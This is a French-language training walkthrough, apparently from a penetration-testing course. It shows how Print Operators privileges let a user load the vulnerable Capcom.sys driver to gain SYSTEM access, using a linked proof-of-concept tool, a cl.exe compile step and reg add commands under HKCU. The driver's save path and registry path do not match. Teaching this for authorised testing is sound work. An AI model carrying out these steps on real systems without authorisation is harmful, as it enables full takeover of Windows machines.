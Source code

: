 Il est bien connu que le pilote `Capcom.sys` contient une fonctionnalité permettant à tout utilisateur d'exécuter du shellcode avec les privilèges SYSTEM. Nous pouvons utiliser nos privilèges pour charger ce pilote vulnérable et élever les privilèges. Nous pouvons utiliser [cet](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) outil pour charger le pilote. Le PoC active le privilège et charge le pilote pour nous.

Téléchargez-le localement et modifiez-le, en collant sur les éléments ci-dessous.

Code : c

```
#include <windows.h>
#include <assert.h>
#include <hiverl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"

```

Ensuite, à partir d'une invite de commandes développeur Visual Studio 2019, compilez-la à l'aide de cl.exe.

#### Compiler avec cl.exe

Compiler avec cl.exe

```
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Compilateur d'optimisation Microsoft (R) C/C++ version 19.28.29913 pour x86
Copyright (C)Microsoft Corporation. Tous les droits sont réservés.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C)Microsoft Corporation. Tous les droits sont réservés.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj

```

#### Ajouter une référence au pilote

Ensuite, téléchargez le pilote `Capcom.sys` depuis [ici](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) et enregistrez-le dans `C:\temp` . Exécutez les commandes ci-dessous pour ajouter une référence à ce pilote sous notre arborescence HKEY_CURRENT_USER.

Ajouter une référence au pilote

```
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

L'opération s'est bien déroulée.

C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

L'opération s'est bien déroulée.

```
